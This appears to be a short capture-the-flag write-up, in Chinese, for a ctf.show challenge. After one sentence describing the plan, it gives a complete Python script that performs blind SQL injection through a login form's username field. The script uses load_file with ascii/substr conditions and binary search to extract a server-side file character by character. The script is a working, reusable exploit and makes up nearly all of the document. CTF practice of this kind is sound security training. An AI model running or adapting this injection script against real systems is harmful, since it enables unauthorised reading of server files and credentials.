 思路：先得到 `flag` 所在位置，然后从此位置开始使用二分法得到每位字符拼接成flag。

```python
# @Author: yanmie

import requests

url = "http://54e509b4-af7d-4ba0-95cd-c84c9a7d0886.chall.ctf.show/api/index.php"



def getFlagPos():
    payload = "if(locate('flag{',load_file('/var/www/html/api/index.php'))>%d,0,1)"
    head = 0
    tail = 1000
    while head<tail:
        mid = (head+tail)//2
        data = {
            "username":payload%mid,
            "password":1,
        }
        response = requests.post(url=url,data=data)
        if "密码错误" == response.json()['msg']:
            head = mid+1
        else:
            tail = mid
    return mid

def getFlag(num):
    payload = "if(ascii(substr((load_file('/var/www/html/api/index.php')),{},1))>{},0,1)"
    flag =""
    while True:
        head = 0
        tail = 127
        num += 1
        while head<tail:
            mid = (head+tail)//2
            data = {
                "username" : payload.format(num,mid),
                "password" : 1,
            }
            response = requests.post(url=url,data=data)
            if "密码错误" == response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        flag += chr(head)
        print(flag)
        if "}" in flag:
            break
    return flag




if "__main__" == __name__:
    pos = getFlagPos()
    # 得到 flag{ 在文件中的位置
    print(pos)
    flag = getFlag(pos)
    print("[+] the flag is : ",flag)
```
